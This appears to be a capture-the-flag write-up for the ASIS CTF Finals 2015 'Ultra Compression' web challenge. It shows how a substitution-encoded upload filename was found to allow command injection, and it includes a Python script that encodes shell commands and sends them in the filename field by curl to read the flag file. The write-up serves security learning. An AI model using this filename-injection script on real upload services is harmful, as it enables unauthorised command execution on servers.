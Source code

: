 ```yaml
---
title: ASIS CTF Finals 2015 - Ultra Compression (Web 125)
homedisplay: featimg
author: quanyang
description: ASIS CTF Finals 2015 Web 125. Ultra Compression Service.
tags: [CTF, WEB, ASIS, INJECTION]
category: [CTF, WEB, INJECTION]
--- 
```


# ultra compression
**Points:**125
**Category:** Web
Go [there](http://ucs.asis-ctf.ir/) and find the flag.

---

Here we are told to go to a webpage to find the flag. Going to the webpage shows an ultra compression service with the ability to upload files.

![]({{site.url|append: site.baseurl}}/img/res/asis/ucs/service.png){: height="auto" width="600px"}

First thing to do is to upload a legitimate file!
I chose a random image file on my machine to upload.

![]({{site.url|append: site.baseurl}}/img/res/asis/ucs/upload.png){: height="300px" width="auto"}

By viewing all embeded javascript, we can tell that the file is sent using ajax to the uploader php script.

The uploader php script is located at 'ajax_php_file.php'. However, it seems that the file uploaded is not stored on the server.

`$(document).ready(function (e) {
$("#upload").on('submit',(function(e) {
e.preventDefault();
$("#message").empty();
$('#loading').show(1000);
$.ajax({
url: "ajax_php_file.php", // Url to which the request is send
type: "POST",             // Type of request to be send, called as method
data: new FormData(this), // Data sent to server, a set of key/value pairs (i.e. form fields and values)
contentType: false,       // The content type used when sending data to the server.
cache: false,             // To unable request pages to be cached
processData:false,        // To send DOMDocument or non processed data file it is set to false
success: function(data)   // A function to be called if request succeeds
{
	$('#loading').hide();
	$("#message").hide(1000);
	$("#message").show(500);
	$("#message").html(data);
}
});
}));`

Using the Chrome browser's developer tool, we can inspect the response of the ajax call.

![]({{site.url|append: site.baseurl}}/img/res/asis/ucs/crypt.png){: height="300px" width="auto"}

As you can see, the filename
`Screen Shot 2015-10-11 at 00.40.02.png`
gets encrypted to
`ow.nnm oOsV G1ig-i1-ii cV 11Jh1J1GJ5my`

Following this finding, we can attempt to map every possible plaintext to their corresponding ciphertext, this gives us the mapping of:

`crypt = "YLyA83tfONHDInmSc7JCb64PBxQaZTRu.viMWj9lhzgwGdeqEV25Kos1Fkp0/Xr"
plain = ".0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"`

Attempting to insert a semi-colon into the filename shows that the field was injectable.
![]({{site.url|append: site.baseurl}}/img/res/asis/ucs/injection.png){: height="200px" width="auto"}

Using a python script to automatically map payload back to their corresponding plaintext, we can then inject commands to the website.

{% highlight python linenos=table %}
import subprocess,sys

crypt = "YLyA83tfONHDInmSc7JCb64PBxQaZTRu.viMWj9lhzgwGdeqEV25Kos1Fkp0/Xr"
plain = ".0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"

mapping = dict()

for x,p in enumerate(plain):
	mapping[crypt[x]] = p

inject = sys.argv[1]

out = ""

for x in inject:
	if x in mapping:
		out = out + mapping[x]
	else:
		out = out + x

print out

cmd = "curl 'http://ucs.asis-ctf.ir/ajax_php_file.php' -H 'Pragma: no-cache' -H 'Origin: http://ucs.asis-ctf.ir' -H 
'Accept-Encoding: gzip, deflate' -H 'Accept-Language: en-GB,en;q=0.8,en-US;q=0.6,id;q=0.4' 
-H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/45.0.2454.101 Safari/537.36' 
-H 'Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryes1iD3vHWDOD2gkZ' -H 'Accept: */*' -H 'Cache-Control: no-cache' 
-H 'X-Requested-With: XMLHttpRequest' -H 'Cookie: PHPSESSID=' -H 'Connection: keep-alive' 
-H 'Referer: http://ucs.asis-ctf.ir/' -H 'DNT: 1' --data-binary $'------WebKitFormBoundaryes1iD3vHWDOD2gkZ\r\nContent-Disposition: form-data; name=\"file\"; 
filename=\""+out+"\"\r\nContent-Type: image/png\r\n\r\n\r\n------WebKitFormBoundaryes1iD3vHWDOD2gkZ--\r\n' --compressed"

p = subprocess.Popen(cmd,shell=True,stdout=subprocess.PIPE)

out = p.communicate()
print out
{% endhighlight %}

Traversing to /home/asis/, we can then do a ls to see that the flag.txt is kept there. Finally, using a cat command, we can obtain the flag!

![]({{site.url|append: site.baseurl}}/img/res/asis/ucs/flag.png){: height="200px" width="auto"}

And we have our flag: **ASIS{72a126946e40f67a04d926dd4786ff15}**
